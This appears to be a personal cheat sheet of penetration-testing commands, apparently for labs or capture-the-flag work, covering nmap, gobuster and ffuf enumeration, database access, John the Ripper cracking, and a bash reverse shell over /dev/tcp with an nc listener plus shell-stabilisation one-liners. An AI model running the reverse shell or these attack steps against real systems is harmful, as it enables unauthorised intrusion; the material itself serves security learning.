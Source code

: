 # Snippets
Contains handy commands and code snippets for use...

## Enumeration
###  Nmap Scanning
```
# Add -p- for all 65535 ports
sudo nmap -sS -sV -sC -oA nmap/<filename> $IP
```

### GoBuster

#### Iterate over directories
```
gobuster dir -u http://$IP/ -o gobust.out -w {wordlist}
```

#### VHost Discovery
```
gobuster vhost -w ../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$DOMAIN
```

### Ffuf
#### Fuzziing for VHosts
```
./ffuf -w ../SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://$IP/ -H 'Host: FUZZ.$DOMAIN' -ms 0
```

## Get source for URL

```
CRTL + U
```

## Shells/Access
### Target callback for reverse shell
- See revshells in [tools.md](tools.md)
```bash
# in seperate terminals
nc -nvlp 9999
bash -c "bash -i >& /dev/tcp/<host ip>/<host port> 0>&1
```
### Stabilise a reverse shell
```bash
# examples below to run on target
python -c "import pty; pty.spawn('/bin/bash')"
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash'"
# now ctrl+z it
# back on host machine run
stty raw -echo && fg
# enter, enter, now you're back in the shell, last step below to be able to ctrl+c, clear etc.
export TERM=xterm
```

## Databases
### MySQL

#### Connect to database

```
mysql -h $IP -u $USER
```

### Redis
#### Connect
```
redis-cli -h $IP
```

#### List databases
```
info keyspace
```

#### Get value for key
```
get <key>
```

## Password/Hash Cracking
### John The Ripper
```bash
./john --single <hash file in format user:hash>.txt
```

